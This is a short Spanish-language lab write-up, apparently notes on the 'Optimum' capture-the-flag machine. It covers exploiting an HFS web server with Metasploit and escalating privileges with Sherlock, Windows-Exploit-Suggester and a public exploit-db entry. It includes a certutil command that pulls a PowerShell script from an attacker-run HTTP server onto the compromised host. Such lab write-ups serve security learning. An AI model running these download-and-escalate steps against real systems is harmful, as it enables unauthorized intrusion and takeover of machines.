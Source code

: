 # 7 - Optimum - Manual escalation \(win\_med\)

Solo teniamos el puerto 80 abierto con este modulo. Se llama servidor de transferencia HFS

![](../../.gitbook/assets/imagen%20%28578%29.png)

## Exploit

Primer resultado de metasploit nos lleva a una shell de usuario

![](../../.gitbook/assets/imagen%20%28576%29.png)

### Suggestor for post exploit

Utilizaremos un suggestor para que nos ayude a escalar

![](../../.gitbook/assets/imagen%20%28571%29.png)

![](../../.gitbook/assets/imagen%20%28574%29.png)

### Manual privilege scalation

{% embed url="https://github.com/rasta-mouse/Sherlock" %}

De ahi sacamos el script ps1, luego lo levantamos en un python http simple y lo llevamos a la otra consola de windows que queremos escalar

![](../../.gitbook/assets/imagen%20%28575%29.png)

```text
certutil -urlcache -f ip/archivo.ps1 nombreacrhivo 
```

### Desde la vulnerable

![](../../.gitbook/assets/imagen%20%28570%29.png)

### Windwos exploit suggester

{% embed url="https://github.com/AonCyberLabs/Windows-Exploit-Suggester" %}

Aqui en el medio lo que hacemos es conseguir la sys info y ponerla en un archivo. Para eso desde consola simplemente ponemos **systeminfo** y ponerla en un archivo de texto.

```text
$ ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
```

La database de python se obtiene luego de hacer el update 

![](../../.gitbook/assets/imagen%20%28572%29.png)

Tras eso nos sguiere vulnerabilidades. Llegamos a una ejecutable desde este codigo

{% embed url="https://www.exploit-db.com/exploits/41020" %}

Con este lo bajamos, transferimos con lo mencionado del simple http de python y ejecutamos.

![](../../.gitbook/assets/imagen%20%28577%29.png)

